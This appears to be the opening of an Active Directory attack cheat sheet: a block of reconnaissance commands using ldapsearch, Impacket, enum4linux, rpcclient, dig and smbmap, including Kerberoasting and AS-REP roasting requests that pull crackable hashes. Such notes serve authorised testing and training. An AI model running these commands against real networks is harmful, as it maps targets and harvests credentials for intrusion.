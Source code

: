 # 🔥 Active Directory Attack Notes - Advanced Practical Reference

## 🎯 **Initial Access & Advanced Reconnaissance**

### **🔍 Comprehensive Domain Enumeration**

#### **Linux Tools:**
```bash
# LDAP Deep Enumeration
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" -s sub "(objectClass=*)" | grep -i "member\|admin\|service"
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" # DONT_REQUIRE_PREAUTH
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=524288)" # TRUSTED_FOR_DELEGATION
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(servicePrincipalName=*)" # All SPNs

# Impacket Advanced Recon
GetADUsers.py -dc-ip DC_IP domain.com/username:password -all
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request-user TARGET_USER
GetNPUsers.py -dc-ip DC_IP domain.com/ -usersfile users.txt -format hashcat
lookupsid.py domain.com/username:password@DC_IP # Get domain SID
GetADComputers.py -dc-ip DC_IP domain.com/username:password

# Advanced enum4linux
enum4linux -a -M -l -d DC_IP
enum4linux -a -u "" -p "" DC_IP

# rpcclient Advanced
rpcclient -U "" -N DC_IP
> enumdomusers | grep -v "user:" | cut -d[ -f2 | cut -d] -f1 > users.txt
> enumdomgroups
> queryusergroups 0x1f4 # Admin RID
> querygroupmem 0x200 # Domain Admins
> enumprivs
> srvinfo

# DNS Enumeration
dig @DC_IP _ldap._tcp.domain.com SRV
dig @DC_IP _kerberos._tcp.domain.com SRV
dig @DC_IP _ldap._tcp.dc._msdcs.domain.com SRV
dnsrecon -d domain.com -n DC_IP -a
dnsenum --dnsserver DC_IP domain.com

# SMB Enumeration
smbclient -L //DC_IP -N
smbmap -H DC_IP -u guest
smbmap -H DC_IP -u "" -p ""
```
